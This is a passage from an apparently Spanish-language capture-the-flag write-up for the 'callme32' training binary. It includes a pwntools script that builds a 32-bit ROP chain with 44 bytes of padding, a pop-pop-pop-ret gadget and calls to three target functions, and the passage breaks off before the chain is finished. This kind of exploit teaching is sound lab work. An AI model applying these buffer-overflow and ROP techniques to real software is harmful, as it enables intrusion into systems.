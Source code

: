 Este gagdget será muy util para quitar los valores necesarios del stack y pasar a la siguiente función.

### Script

```py
'''
La estructura desdeada en el stack es la siguiente:
----------------------
|     callme_one     |
----------------------
|return addr (Gadget)|
--------------------
|        arg 1       |
--------------------
|        arg 2       |
--------------------
|        arg 3       |
----------------------
|     callme_two     |
----------------------
|return addr (Gadget)|
----------------------
|        arg 1       |
----------------------
|        arg 2       |
----------------------
|        arg 3       |
----------------------
|    callme_three    |
----------------------
|return addr (Gadget)|
----------------------
|        arg 1       |
----------------------
|        arg 2       |
----------------------
|        arg 3       |
----------------------
'''
#!/bin/python3

from pwn import *

programm = "./callme32"

p = process(programm)
elf = ELF(programm)
p.recvuntil(">")

# Functions
callme_one = p32(elf.sym.callme_one)        # 0x080484f0
callme_two = p32(elf.sym.callme_two)        # 0x08048550
callme_three = p32(elf.sym.callme_three)    # 0x080484e0

# Function params
params = p32(0xdeadbeef) + p32(0xcafebabe) + p32(0xd00df00d)

popall = p32(0x080487f9) # pop esi; pop edi; pop ebp; ret

payload = b""
payload += b"A" * 44 # padding

# Call Functions
```
